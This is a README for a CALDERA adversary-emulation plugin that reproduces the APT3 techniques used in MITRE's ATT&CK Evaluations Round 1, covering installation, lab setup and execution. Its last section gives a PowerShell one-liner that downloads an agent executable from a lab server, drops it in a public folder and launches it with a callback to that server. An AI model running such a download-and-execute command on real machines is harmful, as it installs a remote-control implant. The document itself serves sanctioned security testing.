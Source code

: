 # CALDERA plugin: Eval

## Overview

A plugin supplying CALDERA with the TTPs used within the ATT&CK Evaluations Round 1 (APT3).
For more information see https://attackevals.mitre.org/about-attack-evaluations.html

1. Plugin Installation
2. Lab Setup
3. Execution

## Installation
Clone the Eval plugin into the caldera/plugin directory
```commandline
git clone https://github.com/mitre-attack/evals_caldera.git
```
Add Eval plugin to CALDERA config `conf/local.yml`
```yaml
plugins:
  - evals_caldera
```

Fill out facts in `data/facts/` specific to your setup.

## Environment Setup
[Full Round 1 Environment](https://attackevals.mitre.org/methodology/round1/environment.html)

Minimum requirements:
- Initial host exists within a windows domain
- Remote shared drive is mounted

## Execution

Please read the [full documentation](https://github.com/mitre/caldera/wiki/Plugins-evals) for this plugin.

## Shire Mordor Environment Execution

For use within the Shire Mordor environment deploy 54ndc47 using the following PowerShell command: 
```commandline
$url="http://172.18.39.8:8888/file/download";$wc=New-Object System.Net.WebClient;$wc.Headers.add("platform","windows");$wc.Headers.add("file","sandcat.go");$output="C:\Users\Public\sandcat.exe";$wc.DownloadFile($url,$output);C:\Users\Public\sandcat.exe -server http://172.18.39.8:8888 -group evals_caldera -v;

```
